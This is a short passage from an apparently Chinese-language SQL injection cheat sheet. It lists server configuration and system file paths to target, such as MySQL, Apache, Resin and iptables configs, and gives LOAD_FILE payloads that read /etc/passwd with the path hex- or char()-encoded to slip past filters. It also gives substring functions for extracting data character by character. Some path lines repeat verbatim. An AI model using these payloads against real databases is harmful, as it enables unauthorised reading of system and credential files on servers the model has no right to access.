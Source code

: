 ```

/etc/rsyncd.conf //同步程序配置文件

/etc/my.cnf //mysql的配置文件

/etc/redhat-release //系统版本

/etc/issue

/etc/issue.net

/usr/local/app/php5/lib/php.ini //PHP相关设置

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置

/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件

/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

/usr/local/resin-pro-3.0.22/conf/resin.conf 同上

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看

/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件

/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

/usr/local/resin-pro-3.0.22/conf/resin.conf 同上

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看

/etc/sysconfig/iptables 查看防火墙策略

load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录0

replace(load_file(0×2F6574632F706173737764),0×3c,0×20)

replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
```



## 快查手册



截取函数，mid，substr，left



```
str("123456")

mid(str,2,1)	结果为2
```
